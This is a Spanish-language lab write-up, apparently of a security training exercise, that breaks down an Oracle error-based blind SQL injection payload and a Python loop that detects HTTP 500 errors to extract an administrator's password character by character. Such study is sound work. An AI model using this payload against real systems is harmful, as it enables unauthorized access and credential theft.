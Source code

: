### Payload SQL utilizado

```sql
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' AND SUBSTR(password,POSICION,1)='CARACTER')-- -
```

### Desglose del payload

#### 1. **Operador de concatenación `||`**

```sql
'||
```

- En Oracle, `||` es el operador de concatenación
- Conecta la cookie original con nuestra inyección SQL

#### 2. **Estructura CASE WHEN**

```sql
(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END ...)
```

- **CASE WHEN**: Estructura condicional tipo if-else
- **Condición real**: En lugar de `(1=1)`, la condición real es la verificación del caracter
- **THEN TO_CHAR(1/0)**: Si es TRUE → genera error de división por cero
- **ELSE NULL**: Si es FALSE → retorna NULL sin error

#### 3. **Condición combinada**

```sql
FROM users WHERE username='administrator' AND SUBSTR(password,POSICION,1)='CARACTER'
```

- Busca en la tabla `users`
- Usuario específico: `administrator`
- **SUBSTR(password,POSICION,1)**: Extrae 1 caracter en la posición especificada
- Compara si ese caracter es igual al que estamos probando

### Funcionamiento de la detección de errores

#### Escenario 1: Caracter correcto

```python
if r.status_code == 500: # Código de estado 500, caracter correcto
    password += caracter
    progressPass.status(password)
    break
```

**¿Qué pasa internamente?**

1. `SUBSTR(password,1,1)='a'` es **TRUE** (asumiendo que 'a' es correcto)
2. La subconsulta encuentra una fila que cumple ambas condiciones
3. Se ejecuta `TO_CHAR(1/0)` → **División por cero**
4. Oracle genera un error interno
5. El servidor web retorna **HTTP 500** (Internal Server Error)
6. El script detecta el error y confirma que el caracter es correcto
